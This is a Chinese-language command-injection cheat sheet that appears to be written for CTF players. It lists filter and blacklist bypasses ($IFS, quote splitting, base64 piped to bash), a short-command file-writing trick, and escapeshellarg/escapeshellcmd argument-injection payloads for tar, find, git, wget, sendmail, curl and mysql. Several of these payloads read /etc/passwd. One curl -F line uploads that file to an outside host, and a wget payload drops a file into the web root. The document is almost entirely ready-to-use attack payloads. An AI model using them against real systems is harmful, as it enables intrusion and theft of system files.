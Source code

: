 # 命令执行

## 推荐网站

https://chybeta.github.io/2017/08/15/命令执行的一些绕过技巧/

https://www.anquanke.com/post/id/107336

## tricks

### 绕过空格限制

#### `<` 符号:cat<flag

#### `$IFS$9` 符号 `${IFS}` 符号

#### \t和\r和\n代替空格

### 绕过黑名单:

#### ""和''还有\`\`:

`l''s`,`l""s`

#### base64编码

\`echo "base64编码"|base64 -d\`和`echo "base64编码"|base64 -d|bash`

#### 变量名拼接:

`a=ec;b=ho;$a$b hello`

## 短命令执行

https://err0rzz.github.io/2017/11/13/ctf命令执行与绕过/

关键命令:

- ls 

-t :按照最后修改时间排序

- sh

#### 实例

```shell
>lo\\
>\ hel\\
>echo\\
ls -t>_
sh _
```



## escapeshellarg和escapeshellcmd

https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html

escapeshellcmd,或者escapeshellarg放在参数选项中可结合参数来利用(某些参数能执行命令).结合参数注入利用

### escapeshellarg和escapeshellcmd联合使用,可以传递多个参数

列出/tmp的文件并忽略sth

```php
$arg = "sth";
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
```

列出/tmp的文件并忽略sth并使用长列表格式

```php
$arg = "sth' -l ";
// ls --ignore='exploit'\\'' -l \' /tmp
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
```

### 利用.bat的命令执行

Print list of files inside `somedir`.

```php
$dir = "somedir";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```

Also execute `whoami` command.

```php
$dir = "somedir \x1a whoami";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```



## 参数注入

https://www.anquanke.com/post/id/107336#h2-0

https://security.szurek.pl/exploit-bypass-php-escapeshellarg-escapeshellcmd.html#escapeshellcmd-with-escapeshellarg

### tar

关键参数:--use-compress-program=

可以造成命令执行

例子:

```shell
tar --use-compress-program='cat /etc/passwd' -cf 2.tar *
cat 2.tar
```



### find

关键参数: -exec 

例子:` find . -type f -exec 命令 \; -quit`

` find . -type f -exec cat /etc/passwd \; -quit`

` find . -type f -exec echo hello \; -quit`

若与escapeshellcmd和escapeshellarg一起使用

不需要加\,因为这两个函数会自动帮我们转义

### git

关键参数:--open-files-in-pager=

例子:`git grep -i --line-number -e '--open-files-in-pager=命令;' master`

### wget

关键参数:--directory-prefix

下载example.php

```php
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

下载并将其保存在特殊位置

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

### sendmail

发送mail.txt。设置来信人为:from@sth.com

`sendmail -t -i -f from@sth.com < mail.txt`

打印/etc/passwd的内容

`sendmail -t -i -f from@sth.com -C/etc/passwd -X/tmp/output.txt < mail.txt`

### curl

关键参数:-F

下载网页内容:

`curl http://example.com`

将/etc/passwd 发送到http://example.com:xxxx配合监听获取文件内容

`curl -F password=@/etc/passwd http://example.com`

![](http://ww1.sinaimg.cn/large/006pWR9agy1g68qtlpvsqj30nj0iiq4n.jpg)

### mysql

执行sql语句

`mysql -uuser -ppassword -e  SELECT sth FROM table`

执行命令

`mysql -uuser -ppassword -e  \! 命令`

### untar

Unpack all `*.tmp` files from `archive.zip` into `/tmp` directory.

```
$zip_name = 'archive.zip';
system(escapeshellcmd('unzip -j '.$zip_name.' *.txt -d /aa/1'));
```

Unpack all `*.tmp` files from `archive.zip` into `/var/www/html` directory.

```
$zip_name = '-d /var/www/html archive.zip';
system('unzip -j '.escapeshellarg($zip_name).' *.tmp -d /tmp');
```

